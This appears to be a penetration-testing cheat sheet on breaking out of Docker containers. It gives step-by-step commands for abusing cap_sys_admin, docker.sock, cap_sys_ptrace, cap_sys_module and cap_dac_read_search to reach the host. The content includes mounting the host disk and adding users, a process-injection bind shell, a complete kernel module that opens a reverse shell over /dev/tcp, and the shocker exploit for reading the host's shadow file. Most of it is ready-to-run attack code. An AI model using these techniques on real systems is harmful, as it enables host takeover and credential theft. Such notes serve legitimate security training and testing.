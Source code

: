 # Container Breakouts

## cap\_sys\_admin Capability

Check if there is cap\_sys\_admin privileges in docker container.&#x20;

```
capsh --print
```

if you see in the result `cap_sys_admin` then you can continue.

* Mount the root directory of host to container and look for the credentials or config files.&#x20;

```
fdisk -l 
mount /dev/sda /mnt
ls -l /mnt/

chroot /mnt/ bash
find / -name password 2>/dev/null
# and check credentials in root file system.
```

* Scan host machine and look for open ports
  * if there is open ssh port

```
chroot /mnt/ adduser turm
# give the password and it will add user to host system. 
# Then login to ssh port with that user. 
```

## docker.sock&#x20;

In the docker-container, if there is a docker.sock have a symlink to /run/docker.sock then there is possibility to do break out.&#x20;

```
find / -name docker.sock 2>/dev/null

#if you see in the result /run/docker.sock go for that way
```

Now we will create a container inside the docker container and connect it to host



```
docker images
# or pull docker images 
docker run -it -v /:/host/ ubuntu:22.04 bash

# That will give us a shell

cd /host/
chroot ./ bash

#after that part add a user and connect with ssh or find
#find credentials. 
```



## cap\_sys\_ptrace capability

if there is cap\_sys\_ptrace capability, then it is possible to inject process and create a bind shell on host it self then it is possible to jump over there via that port.&#x20;

Exploit that can be found

&#x20;[https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128)

{% embed url="https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c" %}

After that change that shell code inside the c file and later

```
gcc inject.c -o inject`
```

later inject with PID of serveR

```
./inject 1234
```

then connect host machine with bind shell

`nc IP PORT`



## cap\_sys\_module capability

If there is cap\_sys\_module capability inside the docker container, then that breakout can work . This capability allows the process to load kernel modules and manipulate the kernel, which can be exploited to compromise the underlying host system's security.

```
capsh --print
# if you see cap_sys_module 
```

Then check for the IP address of the docker. First of A.B.C.01 is for the host machine itself.

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Test");
MODULE_DESCRIPTION("Reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.19.0.2/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Then we should create a Makefile to compile kernel module.&#x20;

```
obj-m +=reverse-shell.o
all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

Make the kernel module.

`make`

Listen on the port in docker container

Then in new terminal&#x20;

`insmod reverse-shell.ko`



## cap\_dac\_read\_search capability

The `cap_dac_read_search` capability is important because it controls a process's ability to read and search directories/files with discretionary access control (DAC) permissions. DAC permissions determine who can access and modify specific files and directories on a system.

```
capsh --print
```

Later check for cap\_dac\_read\_search capability. ([https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3](https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3))

We should use that c code, [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c)

Check also is there any `.dockerinit` file exist.&#x20;

Look which disks are mounted. `mount`

* If there is /etc/ directories mounted change in exploit int main() section and add there these directories.&#x20;

after adding these by using gcc compile the code.&#x20;



So by that you can read shadow file of the host machine. Maybe SSH files or ssh config files of host machine can be read also.&#x20;



##







